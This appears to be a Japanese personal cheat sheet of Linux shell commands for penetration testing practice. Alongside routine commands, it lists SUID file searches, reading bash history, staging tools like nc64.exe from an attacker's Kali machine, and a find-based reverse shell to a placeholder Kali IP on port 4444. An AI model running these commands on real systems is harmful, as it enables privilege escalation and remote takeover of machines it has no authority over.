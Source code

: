 # ubuntu bash

* ファイル指定

  ``` shell
      # 便利
      # $(which XXX)
      cp $(which find) /tmp/find
  ```

* cat

  ``` shell
      #過去の入力情報の表示
      cat /home/XXX/.bash_history
  ```

* cron

  ``` shell
      # 設定確認
      cat /etc/crontab
      #　登録
      crontab -u <ユーザ名> -e    
  ```

* curl

  ``` shell
      #curlでファイル転送
      curl http://<Remote KaliのIP>:8000/nc64.exe -o nc64.exe
  ```

* find

  ``` shell
      #sudo設定のファイルを検索
      find / -perm -4000
      #または
      find / -type f -perm -4000 -ls 2>/dev/null

      #コマンド実行
      find ~/.profile -exec /bin/bash -p -i >& /dev/tcp/<kali ip address>/4444 0>&1 \; -quit
  ```

* grep
  
  ```shell
      #階層検索
      grep -r
      #よく使う
      ls -l | grep -re XXXX -re YYY
      # 該当するファイル名表示
      grep -l
      # nseスクリプトで脆弱性検索
      grep <app_name> -rl /usr/share/nmap/scripts/ 
  ```

* egrep

  ``` shell
      # 実行されているOSバージョンを表示
      ls /etc | egrep -e "fedore*|debian*|gentoo*|mandriva*|mandrake*|meego*|redhat*|lsb-*|sun-*|SUSE*|release"
  ```

* ユーザ情報

  ``` shell
      id
  ```

* マウントされているボリュームの取得
  
  ``` shell
     mount
  ```

* netstat

  ``` shell
      # ネットワーク状態確認
      netstat -pantu
  ```

* パスワード変更

  ```shell
      passwd [USER_NAME]
  ```

* ProxyChains
  
  ``` shell
      #dynamic port forward　 
      #proxy経由でターゲットへのnmapスキャン
      proxychains nmap -top-ports=20 -sT -Pn XXX.XX.XXX.XXX
  ```

* pythonの仮想環境
  
  ``` bash
      #仮想環境の作成
      python3 -m venv myenv
      #仮想環境の有効か
      source myenv/bin/activate
      #仮想環境内でパッケージインストール
      pip install <package_name>
      #作業後仮想環境を無効化
      deactivate
  ```

* sftp
  
  ``` shell
      # sftp -i <秘密鍵> -P 8080 <ユーザ>@localhost
      sftp -i /home/kali/id_rsa -P 8080 testuser@localhost
      #接続後 ファイルを自分の端末に転送
      get /C:/Users/testuser/Desktop/Pentest/flag.txt
  ```

* ss
  
  ``` shell
      # portの開通確認
      ss -pantu
  ```

* ssh

  ``` shell
      ssh -i /home/XXX/.ssh/id_rsa <user_name>@XXX.XXX.XXX.XXX -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null
  ```

* sudo
  
  ``` shell
      #sudoの情報表示
      sudo -l
  ```

* wget
  * ダウンロード

  ``` shell
      # ダウンロード
      wget https://www.exploit-db.com/download/XXXXXX -O filename
  ```
  
  * 自前のwebサーバーからファイルをダウンロードさせる。

  ``` shell
      # Web server
      python -m http.server 8000
      # 転送
      # wget -O [転送先] [転送するファイル]
      wget -O /tmp/XXX http://XXX.XXX.XXX.XXX:8000/filename
  ```

* xfreerdp

  ``` shell
      xfreerdp /u:win /p:password /v:127.0.0.1
  ```
